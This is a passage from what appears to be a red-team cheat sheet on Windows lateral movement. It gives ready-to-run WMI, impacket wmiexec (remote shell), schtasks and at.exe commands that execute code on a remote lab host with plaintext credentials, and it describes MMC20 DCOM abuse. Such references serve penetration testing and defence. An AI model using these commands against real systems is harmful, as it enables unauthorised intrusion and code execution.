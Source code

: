 **Example list services (via PS cmdlet):**

```
PS> Get-WMIObject -ComputerName 192.168.112.200 -query "Select * from Win32_Service" 
```

**Example list processes (via linux wmic util):**

```
pth-wmic -U testlab/josh%Password1 //192.168.112.200 "select csname,name,processid,sessionid from win32_process"
```

**Example semi-interactive shell (impacket):**

```
wmiexec.py 'josh':'Password1'@192.168.112.200
```

* * *

## Scheduled Tasks

Tasks, that are, scheduled. In addition to running commands locally, the built-in schtasks utility leverages RPC/DCOM to schedule tasks on remote machines. On legacy Windows machines At.exe performed this functionality, but was deprecated for SchTasks in modern platforms. Application firewalls that block Schtasks may still allow At, a good reason to attempt both if necessary.

**Port:** 135/TCP (RPC), plus one high-random TCP (DCOM)

**Tools:** schtasks, at

**Examples:**

- ```
      schtasks.exe /Create /S 192.168.112.200 /U testlab\josh /P Password1 /TR "C:\Windows\System32\win32calc.exe" /TN "pwnd" /SC ONCE /ST 20:05
    ```
    
- ```
      at.exe \\192.168.112.200 20:25 cmd /c "C:\Windows\System32\win32calc.exe"
    ```
    

* * *

## Microsoft Management Console (MMC2.0) Application Class

In 2017, Matt Nelson released [research](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/) into methods for lateral movement using DCOM. We strongly urge you to review his research for full details (it's worth the read). Reviewing all the intricacies of DCOM is outside the scope of what can/should be covered in a "cheat sheet", but leave it to say the MMC2.0 application class can be accessed remotely over RPC/DCOM, and exports the ExecuteShellCommand method which can be used to... Execute..a..Shell..Command.

MMC requires local admin due to the nature of the application, and will be blocked by the default firewall rules. BUT, we've seen enough networks that disable host firewalls to make good use of this technique.
